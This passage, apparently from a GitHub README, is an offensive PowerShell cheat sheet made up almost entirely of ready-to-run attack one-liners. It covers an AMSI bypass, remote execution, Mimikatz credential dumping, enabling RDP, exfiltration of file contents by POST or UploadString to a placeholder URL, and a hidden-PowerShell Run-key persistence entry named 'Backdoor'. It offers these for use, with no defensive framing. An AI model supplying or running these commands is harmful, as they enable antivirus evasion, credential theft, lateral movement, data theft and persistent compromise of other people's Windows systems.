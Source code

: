 ### AMSI Bypass
- `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`  
  Disables AMSI to avoid script scanning.

---

## Lateral Movement

### Remote Execution
- `Invoke-Command -ComputerName <target> -ScriptBlock { <command> }`  
  Runs a command remotely (requires WinRM).
- `Enter-PSSession -ComputerName <target>`  
  Starts an interactive remote session.

### Credentials
- `Get-Credential`  
  Prompts for credentials.
- `Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'`  
  Dumps credentials (requires Mimikatz).

### Enable RDP
- `Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name 'fDenyTSConnections' -Value 0`  
  Enables RDP.
- `Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'`  
  Opens RDP ports.

---

## Data Exfiltration

### Send Data
- `$data = Get-Content <file>; Invoke-WebRequest -Uri <url> -Method POST -Body $data`  
  Exfiltrates file contents via POST.
- `IEX (New-Object Net.WebClient).UploadString('<url>', (Get-Content <file>))`  
  Uploads data to a server.

### Clipboard
- `Get-Clipboard`  
  Retrieves clipboard contents.

---

## Persistence

### Registry
- `New-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'Backdoor' -Value 'powershell -ep bypass -w hidden -c <command>'`  
  Runs a script at login.
